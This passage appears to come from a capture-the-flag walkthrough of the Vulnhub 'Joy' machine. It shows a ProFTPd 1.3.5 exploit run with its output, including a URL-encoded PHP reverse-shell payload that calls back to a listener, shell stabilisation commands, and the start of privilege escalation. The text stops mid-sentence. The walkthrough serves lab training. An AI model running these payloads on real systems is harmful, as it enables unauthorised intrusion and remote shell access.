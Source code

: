 For the `sitepath`, we specify `/var/www/tryingharderisjoy`. This can be found in the `version_control` file. Before we run the exploit, be sure to set up a `nc` listener first. 

```
nc -lvnp 1234
listening on [any] 1234 ...

# Run the exploit on another terminal 

python2 exploit_proftd_1_3_5.py 192.168.50.112 /home/ftp/upload 10.10.10.2 1234
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
[+] REMINDER: Start a Netcat listener on port: 1234
[+] Running exploit for ProFTPd 1.3.5...
[+] FTP Banner: 220 The Good Tech Inc. FTP Server

[+] Sending exploit...
[+] Running payload by requesting: http://192.168.50.112/pealthe.php?banana=nohup%20php%20-r%20%27%24sock%3Dfsockopen%28%2210.10.10.2%22%2C1234%29%3Bexec%28%22/bin/sh%20-i%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27%20%26%20
[+] Thank you for using this exploit. Now go bananas!
```

The exploit works and we have a shell as `www-data`. Lets stable the shell before moving forward. 

```
nc -lvnp 1234                           
listening on [any] 1234 ...
connect to [10.10.10.2] from (UNKNOWN) [192.168.50.112] 40106
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data),123(ossec)
$ export TERM=xterm
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@JOY:/var/www/tryingharderisjoy$ ^Z
zsh: suspended  nc -lvnp 1234
                                                                                                                                                            
┌──(kali㉿kali)-[~/Vulnhub/Joy]
└─$ stty raw -echo; fg                                                                                                                        
[1]  + continued  nc -lvnp 1234

www-data@JOY:/var/www/tryingharderisjoy$
```

## Privileged Escalation 

#### www-data to Patrick 

Upon recieving a shell, we are in the `/var/www/tryingharderisjoy` directory. There's a file called `patricksecretsofjoy` in `/tryingharderisjoy/ossec` directory. Viewing it will give us `patrick` password: 
